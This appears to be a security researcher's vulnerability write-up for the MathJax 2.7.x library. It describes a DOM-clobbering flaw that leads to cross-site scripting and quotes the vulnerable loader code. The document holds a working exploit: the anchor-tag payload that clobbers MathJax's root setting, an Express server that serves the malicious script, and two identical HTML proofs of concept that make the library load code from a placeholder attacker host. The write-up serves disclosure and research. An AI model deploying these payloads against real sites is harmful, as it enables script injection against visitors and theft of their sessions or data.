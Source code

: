 ## MathJax

### Meta

+ Library: MathJax
+ Stars: 10.1K
+ Version: v2.7.x
+ Fingerprint: `MathJax.version == "2.7.2"`
+ Payload: ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk


### Library

URL: 
+ `https://cdn.jsdelivr.net/npm/mathjax@2/MathJax.js`
+ `https://www.mathjax.org/MathJax-v2-7-9-available/`


### Vulnerable Code Snippet

```javascript
if (document.getElementById && document.childNodes && document.createElement) {
    if (!(window.MathJax && MathJax.Hub)) {
        if (window.MathJax) {
            window.MathJax = {
                AuthorConfig: window.MathJax
            }
        } else {
            window.MathJax = {}
        }
```
```javascript
MathJax.Hub.Startup = {
    script: "",
    queue: MathJax.Callback.Queue(),
    signal: MathJax.Callback.Signal("Startup"),
    params: {},
    Config: function() {
        this.queue.Push(["Post", this.signal, "Begin Config"]);
        if (MathJax.AuthorConfig && MathJax.AuthorConfig.root) {
            MathJax.Ajax.config.root = MathJax.AuthorConfig.root
        }
```
```javascript
fileURL: function(j) {
  var i;
  while ((i = j.match(/^\[([-._a-z0-9]+)\]/i)) && b.hasOwnProperty(i[1])) {
      j = (b[i[1]] || this.config.root) + j.substr(i[1].length + 2) // Loading MathJax.AuthorConfig.root and type coercice to String
  }
  return j
}
```
```javascript
Load: function(k, m) {
  m = a.Callback(m);
  var l;
  if (k instanceof Object) {
      for (var j in k) {
          if (k.hasOwnProperty(j)) {
              l = j.toUpperCase();
              k = k[j]
          }
      }
  } else {
      l = k.split(/\./).pop().toUpperCase()
  }
  k = this.fileURL(k);
  if (this.loading[k]) {
      this.addHook(k, m)
  } else {
      this.head = h(this.head);
      if (this.loader[l]) {
          this.loader[l].call(this, k, m) // Calls loader['JS'] below

```

```javascript
loader: {
  JS: function(k, m) {
      var j = this.fileName(k);
      var i = document.createElement("script");
      var l = a.Callback(["loadTimeout", this, k]);
      this.loading[k] = {
          callback: m,
          timeout: setTimeout(l, this.timeout),
          status: this.STATUS.OK,
          script: i
      };
      this.loading[k].message = a.Message.File(j);
      i.onerror = l;
      i.type = "text/javascript";
      i.src = k + this.fileRev(j);
      this.head.appendChild(i)
  }
```

## PoC

Please note that for the following proof of concept, you will need to replace `xxx.xxx.xxx` with your own server address to host the malicious script and configure the URL to route `//config/TeX-AMS-MML_HTMLorMML.js`.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

// Middleware to normalize double slashes in the URL path
app.use((req, res, next) => {
  req.url = req.url.replace(/\/\//g, '/');
  next();
});

app.get('/config/TeX-AMS-MML_HTMLorMML.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'TeX-AMS-MML_HTMLorMML.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```


### PoC #1
```html

<a id="MathJax"></a>
<a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>

<script>
	(function() {
		  var script = document.createElement("script");
		  script.type = "text/javascript";
		  script.src = "https://mathjax.rstudio.com/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML";
		  document.getElementsByTagName("head")[0].appendChild(script);
		}
	)();
</script>
```

### PoC #2
```html
<a id="MathJax"></a>
<a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>

<script>
	(function() {
		  var script = document.createElement("script");
		  script.type = "text/javascript";
		  script.src = "https://mathjax.rstudio.com/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML";
		  document.getElementsByTagName("head")[0].appendChild(script);
		}
	)();
</script>
```
